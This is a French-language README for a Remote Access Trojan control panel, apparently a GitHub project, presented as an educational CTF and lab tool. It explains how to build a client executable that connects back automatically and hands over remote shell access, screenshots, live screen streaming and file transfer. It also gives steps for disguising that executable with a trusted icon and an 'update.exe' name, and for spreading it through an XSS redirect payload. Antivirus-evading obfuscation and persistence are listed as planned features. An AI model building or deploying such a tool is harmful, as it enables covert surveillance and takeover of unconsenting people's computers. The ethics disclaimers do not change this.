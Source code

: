🐀 RAT Control Panel

Bienvenue dans RAT Control Panel, un outil éducatif de Remote Administration Tool (RAT) conçu pour les environnements de test de sécurité, les compétitions CTF, ou les laboratoires d'apprentissage. Ce projet fournit un serveur, un client, et une interface graphique intuitive pour exécuter des commandes à distance, capturer des écrans, diffuser en temps réel, et plus encore, avec une touche de discrétion grâce à la personnalisation des icônes.

⚠️ Avertissement : Cet outil est destiné à un usage éthique et autorisé uniquement. L'utilisation non autorisée est illégale. Veillez à respecter les lois et à obtenir un consentement explicite avant tout déploiement.


✨ Fonctionnalités

Exécution de commandes à distance : Lancez des commandes shell sur le client (ex. whoami, dir).
Capture d'écran : Prenez des instantanés de l'écran du client, enregistrés en JPEG.
Streaming en temps réel : Diffusez l'écran du client avec un faible décalage (10 FPS).
Transfert de fichiers : Téléchargez ou envoyez des fichiers entre le serveur et le client.
Chiffrement sécurisé : Toutes les communications sont chiffrées avec cryptography (Fernet).
Interface graphique : Une UI conviviale (tkinter) pour démarrer le serveur, configurer l'IP, et compiler le client.
Personnalisation discrète : Compilez le client avec une icône personnalisée (à partir de .png) pour plus de discrétion.
Connexion automatique : Le client se connecte directement au serveur sans interaction utilisateur.


🛠️ Prérequis
Avant de commencer, assurez-vous d'avoir :



Prérequis
Description



Python 3.8+
Téléchargez depuis python.org.


Système d'exploitation
Windows (client et serveur nécessitent un environnement graphique).


Réseau
Port 4444 ouvert sur le serveur, avec port forwarding si nécessaire.


Image .png
Une icône (32x32 ou 64x64 pixels) pour personnaliser l'exécutable du client.



📦 Installation
Suivez ces étapes pour configurer le projet :

Cloner le projet (ou téléchargez les fichiers) :
```bash
git clone https://github.com/Toragp28/ratatouille-beta.git
```

Installer les dépendances :Exécutez la commande suivante pour installer toutes les bibliothèques nécessaires :
```bash
pip install Pillow opencv-python cryptography pyinstaller
```

💡 tkinter est inclus avec Python. Si vous rencontrez des erreurs, vérifiez votre installation Python.


Préparer les fichiers :

Placez ui.py, server.py, et client.py dans le même dossier.
Obtenez une image .png pour l'icône (par exemple, téléchargez depuis IconArchive ou créez-en une avec GIMP).


Configurer le réseau :

Ouvrez le port 4444 sur le serveur :
```bash
netsh advfirewall firewall add rule name="RAT" dir=in action=allow protocol=TCP localport=4444
```

Si vous utilisez une IP publique, configurez le port forwarding sur votre routeur.




🚀 Utilisation
1. Lancer l'interface graphique
Exécutez l'interface pour configurer et contrôler le RAT :
```bash
python ui.py
```
L'interface affiche :

Un champ pour entrer l'adresse IP du serveur.
Un bouton pour démarrer le serveur.
Un bouton pour importer une icône (.png).
Un bouton pour compiler le client.
Une zone de logs pour suivre les actions.

2. Démarrer le serveur

Cliquez sur "Démarrer le serveur" dans l'interface.
Les logs affichent :
```bash
Serveur démarré sur 0.0.0.0:4444
Adresses IP locales : 192.168.1.100, ...
```

Notez l'IP affichée (par exemple, 192.168.1.100) pour l'étape suivante.

3. Configurer l'adresse IP

Dans le champ Adresse IP du serveur, entrez l'IP notée (par exemple, 192.168.1.100).
Si vous utilisez une IP publique, assurez-vous que le port 4444 est accessible.

4. Importer une icône

Cliquez sur "Importer une icône (.png)".
Sélectionnez un fichier .png (idéalement 32x32 ou 64x64 pixels).
L'interface convertit automatiquement le .png en .ico et affiche :
```bash
Icône importée et convertie : edge.png -> temp_icon.ico
```



💡 Utilisez une icône légitime (par exemple, Microsoft Edge, Word) pour rendre l'exécutable discret.

5. Compiler le client

Cliquez sur "Compiler le client".
L'interface :
Met à jour client.py avec l'IP saisie.
Compile client.py en dist/client.exe avec PyInstaller, en utilisant l'icône importée.
Supprime le fichier .ico temporaire.


Les logs confirment :
```bash
client.py modifié avec SERVER_HOST = 192.168.1.100
Compilation réussie. Exécutable généré dans dist/client.exe
```


6. Tester le client

Copiez dist/client.exe sur un PC client (Windows avec interface graphique).
Exécutez :
```bash
client.exe
```

L'exécutable affiche l'icône personnalisée et se connecte automatiquement au serveur.
Sur le serveur, entrez des commandes dans la console (ouverte automatiquement) :
```bash
whoami
screenshot
stream
```

screenshot : Enregistre received_screenshot.jpg.
stream : Affiche l'écran du client en temps réel (appuyez sur q pour arrêter).



7. Déploiement via XSS (optionnel)
Pour distribuer client.exe via une vulnérabilité XSS (dans un cadre éthique) :

Hébergez client.exe :
```bash
python -m http.server 8080
```
```bash
Injectez via XSS :<script>
    window.location = 'http://votre-serveur:8080/client.exe';
</script>
```

L'icône personnalisée rend l'exécutable plus convaincant (par exemple, renommez-le update.exe).


⚠️ Restez dans un cadre légal (CTF, bug bounty). L'utilisation non autorisée est illégale.


📋 Exemple de logs dans l'UI
```bash
Thu May 15 17:00:00 2025: Démarrage du serveur...
Thu May 15 17:00:01 2025: Serveur démarré sur 0.0.0.0:4444
Thu May 15 17:00:05 2025: Connexion de 192.168.1.98:54321
Thu May 15 17:00:10 2025: Icône importée et convertie : edge.png -> temp_icon.ico
Thu May 15 17:00:15 2025: client.py modifié avec SERVER_HOST = 192.168.1.100
Thu May 15 17:00:20 2025: Compilation réussie. Exécutable généré dans dist/client.exe
```

🐞 Dépannage



Problème                                                                    Solution



Serveur ne démarre pas                              Vérifiez que server.py est dans le dossier. Installez les dépendances : pip install Pillow opencv-python cryptography.


Client ne se connecte pas                          Vérifiez l'IP saisie. Testez : ping 192.168.1.100 et nc -zv 192.168.1.100 4444.


Icône non appliquée                                 Assurez-vous d'importer un .png valide. Testez : python -c "from PIL import Image; Image.open('edge.png').show()".


Compilation échoue                                 Installez PyInstaller : pip install pyinstaller. Vérifiez les logs pour l'erreur.


Streaming/screenshot échoue                        Exécutez le client sur un bureau Windows. Testez : python -c "from PIL import ImageGrab; ImageGrab.grab()".



⚖️ Considérations éthiques

Usage autorisé uniquement : Utilisez ce RAT dans des environnements contrôlés (CTF, labs de sécurité).
Légalité : Déployer un RAT sans consentement est illégal. Obtenez toujours une autorisation explicite.
Responsabilité : Signalez les vulnérabilités XSS de manière éthique via des programmes de bug bounty.


🌟 Améliorations futures

Ajouter un bouton pour arrêter le serveur depuis l'UI.
Implémenter l'obfuscation du client avec pyarmor pour éviter la détection antivirus.
Ajouter la persistance (exécution au démarrage) dans l'exécutable client.
Supporter d'autres formats d'image (.jpg, .bmp) pour les icônes.


🙏 Crédits
Développé avec ❤️ pour l'apprentissage de la cybersécurité. Merci à la communauté open-source pour les bibliothèques utilisées :

Pillow
OpenCV
Cryptography
PyInstaller


📧 se programe était super amusent et laide de l'ia a était agréable bisous 

